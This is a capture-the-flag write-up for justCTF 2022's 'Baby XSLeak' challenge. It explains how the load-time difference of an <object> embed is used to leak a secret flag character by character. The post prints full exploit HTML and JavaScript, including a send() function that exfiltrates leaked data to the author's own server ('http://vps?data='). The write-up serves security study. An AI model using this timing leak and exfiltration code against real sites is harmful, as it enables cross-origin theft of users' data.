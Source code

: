 ```yaml
---
title: justCTF 2022 - Baby XSLeak Write-up
date: 2022-06-14 20:43:37
tags: [Security]
categories: [Security]
translator: huli
---
```

<img src="/img/justctf-2022-xsleak-writeup/cover-en.png" style="display:none">

Last weekend, I played justCTF 2022 with my team [Water Paddler](https://ctftime.org/team/155019/), and we got 7th place!

It's the write-up about one of the XSleak challenges, an easier one. If you want to see the hard one, you can refer to this awesome writeup: [New technique of stealing data using CSS and Scroll-to-text Fragment feature](https://www.secforce.com/blog/new-technique-of-stealing-data-using-css-and-scroll-to-text-fragment-feature/).

<!-- more -->

## About the challenge

It's a simple web service, and there are three endpoints:

1. /
2. /search
3. /debug

The core function is as below:

``` go
flagStr := os.Getenv("FLAG")
mux := http.NewServeMux()
mux.HandleFunc("/search/", func(w http.ResponseWriter, r *http.Request) {
  if !isPrivateIP(getIP(r)) {
    w.WriteHeader(http.StatusForbidden)
    return
  }
  handleSearch(w, r, flagStr)
})
mux.HandleFunc("/debug/", func(w http.ResponseWriter, r *http.Request) {
  handleSearch(w, r, "justCTF{fake_flags}")
})

func handleSearch(w http.ResponseWriter, r *http.Request, flag string) {
  query := r.URL.Query().Get("search")
  msg := r.URL.Query().Get("msg")

  if !strings.Contains(flag, query) {
    w.Write([]byte("Not found"))
  } else {
    w.Write(append([]byte(msg), flag...))
  }
}
```

You can pass two query strings `search` and `msg`, if `search` is in the flag, the server will return msg+flag, otherwise `Not Found`.

`/search` can only be accessed within the internal network via the bot, so they provide another `/debug` endpoint for the player to test.

For example, `/debug?search=NOT_EXIST&msg=hello` returns `Not found`,  and`/debug?search=justCTF&msg=hello` returns `hellojustCTF{fake_flags}`

We can use this difference to leak the flag char by char.

By the way, we can't do XSS  because of the headers:

```
w.Header().Set("X-Content-Type-Options", "nosniff")
w.Header().Set("Content-Security-Policy", "script-src 'none';")
w.Header().Set("Content-Type", "text/plain")
```

Also, [error events](https://xsleaks.dev/docs/attacks/error-events/) will not work because of `text/plain` content type.

## Oracle

What is the oracle to leak the flag?

We can use something like: `/search?search=a&msg=${'A'*1000000}`

If `a` is not in the flag, the response is just `Not Found`, otherwise A*1000000+flag

More content takes more time for the browser to render, so we can use the `<object>` tag to embed the URL and measure the load time, see the following for the actual code:

``` js
function leak(char, callback) {
  return new Promise(resolve => {
    let ss = 'just_random_string'
    // for msg, I use random string to avoid cache, but maybe it's not needed
    let url = `http://baby-xsleak-ams3.web.jctf.pro/search/?search=${char}&msg=`+ss[Math.floor(Math.random()*ss.length)].repeat(1000000)
    let start = performance.now()
    let object = document.createElement('object');
    object.width = '2000px'
    object.height = '2000px'
    object.data = url;
    object.onload = () => {
      object.remove()
      let end = performance.now()
      resolve(end - start)
    }
    object.onerror = () => console.log('Error event triggered');
    document.body.appendChild(object);
  })
  
}
```

Initially, I didn't set object width and height, but later on, I found that it's important because the default size is too small to make a difference in the load time.

## Exploit

Here is my exploit in the end:

``` html
<!DOCTYPE html>
<html>
<head>

</head>
<body>
  <img src="https://deelay.me/30000/https://example.com">
    <script>
      fetch('https://deelay.me/30000/https://example.com')

      function send(data) {
        fetch('http://vps?data='+encodeURIComponent(data)).catch(err => 1)
      }

      function leak(char, callback) {
        return new Promise(resolve => {
          let ss = 'just_random_string'
          let url = `http://baby-xsleak-ams3.web.jctf.pro/search/?search=${char}&msg=`+ss[Math.floor(Math.random()*ss.length)].repeat(1000000)
          let start = performance.now()
          let object = document.createElement('object');
          object.width = '2000px'
          object.height = '2000px'
          object.data = url;
          object.onload = () => {
            object.remove()
            let end = performance.now()
            resolve(end - start)
          }
          object.onerror = () => console.log('Error event triggered');
          document.body.appendChild(object);
        })
        
      }

      send('start')

      let charset = 'abcdefghijklmnopqrstuvwxyz_}'.split('')
      let flag = 'justCTF{'

      async function main() {
        let found = 0
        let notFound = 0
        for(let i=0;i<3;i++) {
          await leak('..')
        }
        for(let i=0; i<3; i++) {
          found += await leak('justCTF')
        }
        for(let i=0; i<3; i++) {
          notFound += await leak('NOT_FOUND123')
        }

        found /= 3
        notFound /= 3
        
        send('found flag:'+found)
        send('not found flag:'+notFound)

        let threshold = found - ((found - notFound)/2)
        send('threshold:'+threshold)

        if (notFound > found) {
          return
        }

        // exploit
        while(true) {
          if (flag[flag.length - 1] === '}') {
            break
          }
          for(let char of charset) {
            let trying = flag + char
            let time = 0
            for(let i=0; i<3; i++) {
              time += await leak(trying)
            }
            time/=3
            send('char:'+trying+',time:'+time)
            if (time >= threshold) {
              flag += char
              send(flag)
              break
            }
          }
        }
      }

      main()
      
    </script>
</body>

</html>
```

When exploiting the xsleak challenge, I need to send the log back to my server to know if anything is wrong.

For example, the threshold is sometimes inaccurate, so I need to update the exploit a few times manually.

Also, there are a few details to make the exploit faster and more stable. 

First, I send a few requests before measuring the load time. The first few requests are not that accurate due to DNS lookup, initial connection, etc.

Second, I send a request three times and take it's average to be more accurate(but the trade-off is that the exploit will take more time)

Third, you can leak the charset first to reduce the time and request significantly:

``` js
// leak charset
let charset = 'abcdefghijklmnopqrstuvwxyz_}'.split('')
let newCharset = ''
for(let char of charset) {
  let time = 0
  for(let i=0; i<3; i++) {
    time += await leak(char)
  }
  time/=3
  send('char:' + char + ',time:' + time)
  if (time >= thershold) {
    newCharset += char
    send(newCharset)
  }
}
```

I spent most of the time tweaking these details to get the expected result. Anyway, by running the exploit a few times, we can get the flag in the end: `justCTF{timeme__}`(IIRC, the server is off, and I forgot to take the screenshot)
